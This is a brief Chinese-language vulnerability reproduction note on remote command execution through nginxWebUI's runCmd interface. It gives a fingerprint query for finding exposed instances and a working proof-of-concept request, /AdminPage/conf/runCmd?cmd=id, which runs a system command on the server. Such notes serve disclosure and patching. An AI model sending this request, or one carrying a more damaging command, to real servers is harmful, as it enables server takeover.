 # 

# nginxWebUI runCmd 远程命令执行漏洞

## 漏洞描述

nginxWebUI runCmd 接口存在远程命令执行漏洞，攻击者通过漏洞可以获取到服务器权限，执行任意命令

## 漏洞影响

nginxWebUI

## 网络测绘

```
title="nginxwebui"
```

## 漏洞复现

登录页面

![image-20230704113502611](./images/image-20230704113502611.png)

验证请求包

```
/AdminPage/conf/runCmd?cmd=id
```

![image-20230704113520591](./images/image-20230704113520591.png)
